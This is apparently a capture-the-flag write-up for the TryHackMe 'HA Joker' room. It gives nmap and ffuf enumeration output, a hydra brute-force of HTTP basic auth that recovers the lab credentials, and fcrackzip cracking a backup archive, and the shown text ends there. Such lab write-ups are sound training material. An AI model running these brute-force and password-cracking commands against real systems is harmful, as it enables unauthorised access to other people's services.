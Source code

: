 # HA Joker CTF



Room link: https://tryhackme.com/room/jokerctf

## Enumeration 

Nmap 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8080/tcp open  http    Apache httpd 2.4.29
```


ffuf

```
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
img                     [Status: 301, Size: 308, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 5954, Words: 783, Lines: 97]
secret.txt              [Status: 200, Size: 320, Words: 62, Lines: 7]
                        [Status: 200, Size: 5954, Words: 783, Lines: 97]
phpinfo.php             [Status: 200, Size: 94858, Words: 4706, Lines: 1160]
index.html              [Status: 200, Size: 5954, Words: 783, Lines: 97]
```

secret.txt

```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

http://10.10.68.63/phpinfo.php

## port 8080 (Brute Force)

basic auth brute force with the user name Joker

```
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 -f 10.10.68.63 http-get / -f -V 

[8080][http-get] host: 10.10.68.63   login: joker   password: hannah
```

enum the new web directorys

```bash
ffuf -u "http://10.10.68.63:8080//FUZZ" -w  /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt  -c   -mc all  -fc 404,403,301 -e .html,.txt,.php,.zip -H "Authorization: Basic am9rZXI6aGFubmFo"

backup                  [Status: 200, Size: 12133560, Words: 0, Lines: 0]
backup.zip              [Status: 200, Size: 12133560, Words: 0, Lines: 0]
robots.txt              [Status: 200, Size: 836, Words: 88, Lines: 33]
robots                  [Status: 200, Size: 836, Words: 88, Lines: 33]
configuration.php       [Status: 200, Size: 0, Words: 1, Lines: 1]
htaccess                [Status: 200, Size: 3005, Words: 438, Lines: 81]
htaccess.txt            [Status: 200, Size: 3005, Words: 438, Lines: 81]
                        [Status: 200, Size: 10925, Words: 776, Lines: 218]
```


Download the backup file and crack the password

```
$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt backup                                                    1 ⨯
possible pw found: hannah ()
```                              


